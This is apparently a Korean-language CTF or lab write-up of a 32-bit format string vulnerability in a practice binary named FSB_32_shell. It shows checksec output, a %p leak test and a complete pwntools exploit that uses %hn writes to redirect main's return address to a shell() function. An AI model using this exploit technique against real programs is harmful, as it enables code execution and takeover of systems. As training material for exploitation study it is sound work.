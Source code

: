 
- 분석
```sh
┌──(foo1㉿main-server)-[~/Desktop/kknock/pwnable/FSB_32]
└─$ checksec ./FSB_32_shell
[*] '/home/foo1/Desktop/kknock/pwnable/FSB_32/FSB_32_shell'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Partial RELRO이므로 SFP 가능

`printf(buf);` 형식지정자를 명시하지 않아 SFP 취약점 발생, 실제로 테스트해보면 알 수 있음
```sh
┌──(foo1㉿main-server)-[~/Desktop/kknock/pwnable/FSB_32]
└─$ ./FSB_32_shell 
0xffd328c8
%p %p %p %p %p %p %p    
0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0xa 0xc00000
```

---

main의 ret 위치에 shell()의 주소로 변조하면 됨
이때, SFP를 이용하여 `%1$hn`이와 같은 형태로 변조시킴

%n도 특정 위치에 값을 저장할 수 있게 만들지만, 넣어야하는 값이 1억회 이상의 길이를 가지고 있으므로 더 작은 단위로 나누기 위해 %hn을 사용

아래와 같이 비트마스킹을 통해 주소값을 상위 주소, 하위 주소로 분리함
```python
shell_high_order=(shell_syb>>16)&0xFFFF
shell_low_order=shell_syb&0xFFFF
```

---

- exploit
x86 이므로 아래와 같은 스크립트로 공격할 수 있음
```python
from pwn import *
u
p=process("./FSB_32_shell")
#p=gdb.debug("./FSB_32_shell")
e=ELF("./FSB_32_shell")
context.log_level='DEBUG'

shell_syb=e.symbols["shell"] #0x080491a6
shell_high_order=(shell_syb>>16)&0xFFFF
shell_low_order=shell_syb&0xFFFF

payload=b''

buf_addr=int(p.recv(11)[2:-1],16)
buf_size=0xd4
payload+=p32(buf_addr+buf_size+2)
payload+=p32(buf_addr+buf_size)

payload+=b'%'+str(shell_high_order-len(payload)).encode()+b'c'  #b'%2044c'
payload+=b'%1$hn'
payload+=b'%'+str(shell_low_order-shell_high_order).encode()+b'c'   #b'%35234c'
payload+=b'%2$hn'

p.send(payload)

p.interactive()
```

